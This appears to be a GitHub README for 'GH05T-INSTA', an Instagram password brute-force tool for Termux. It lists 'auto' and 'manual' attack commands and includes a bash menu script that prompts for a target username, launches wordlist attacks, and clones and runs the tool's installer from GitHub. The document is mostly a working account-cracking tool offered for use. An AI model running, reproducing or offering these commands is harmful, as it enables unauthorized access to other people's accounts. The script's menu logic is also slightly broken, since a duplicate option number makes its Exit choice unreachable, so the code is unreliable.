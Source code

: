# GH05T SCN

* Included Developer and Cookies

`Never modify the GH05T-INSTA tool`

<b>AUTO ATTACK</b>

```
gh05t --user username --pass 20
```

<b>MANUAL ATTACK</b>

```
gh05t --user username --passadd pwdlocation
```

<b>Brute Force error</b>

```
gh05t --error
```

<b>Uninstall gh05t</b>

```
gh05t uninstall all
```

<b>CHECKING FILES</b>

```
gh05t --check
```

<b>Update GH05T-INSTA Tool</b>

```
gh05t --update
```

<b>Display Usernames</b>

```
gh05t --cookies
```

<b>To contact the developers</b>

```
gh05t developer
```

<b>Help Command</b>

```
gh05t --help
```

```
CONTRIBUTE  :  GH05T-HUNTER5
```

COPY THIS CODE ⬇️

```bash
function ban () {
clear
echo -e " \033[0;32m   ██╗███╗   ██╗███████╗████████╗ █████╗"
echo -e " \033[0;32m   ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗"
echo -e " \033[0;32m   ██║██╔██╗ ██║███████╗   ██║   ███████║ "
echo -e " \033[0;32m   ██║██║╚██╗██║╚════██║   ██║   ██╔══██║"
echo -e " \033[0;32m   ██║██║ ╚████║███████║   ██║   ██║  ██║"
echo -e " \033[0;32m   ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝"
echo -e " \033[0;31m    Coded  :  Your name "
}
function main () {
if [ -d /data/data/com.termux/files/home/.gh05t ]; then
clear
ban
sleep 1
echo -e "    \033[0;31m01  Auto Attack"
echo -e "    \033[0;31m02  Manual Attack"
echo -e "    \033[0;31m03  Update"
echo -e "    \033[0;31m04  Error"
echo -e "    \033[0;31m05  Check "
echo -e "    \033[0;31m06  Developer "
echo -e "    \033[0;31m07  Username "
echo -e "    \033[0;31m99  Help"
echo -e "    \033[0;31m00  Exit"
read -p "      what you want  : " what
if [ $what = "01" ] || [ $what = "1" ]; then
ban
read -p " Enter Your Instagram Username : " user
gh05t --user $user --pass 18
elif [ $what = "02" ] || [ $what = "2" ]; then
ban
read -p " Enter Your Instagram Username : " user
read -p " Enter your password location along with name : " pass
gh05t --user $user --passadd $pass
elif [ $what = "03" ] || [ $what = "3" ]; then
gh05t --update
elif [ $what = "04" ] || [ $what = "4" ]; then
gh05t --error
elif [ $what = "05" ] || [ $what = "5" ]; then
gh05t --check
elif [ $what = "06" ] || [ $what = "6" ]; then
clear
wa.me/+0000000000 {your number}
elif [ $what = "07" ] || [ $what = "7" ]; then
gh05t --cookies 
elif [ $what = "99" ]; then
gh05t --help
elif [ $what = "05" ]; then
clear
exit
else
echo ""
clear
echo " Try Again "
sleep 3
main
fi
else
clear
ban
echo -e " \033[0;31m   please wait"
sleep 5
pkg install python -y
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
cd GH05T-INSTA
python install.py
clear
main
exit
fi
}
main
```
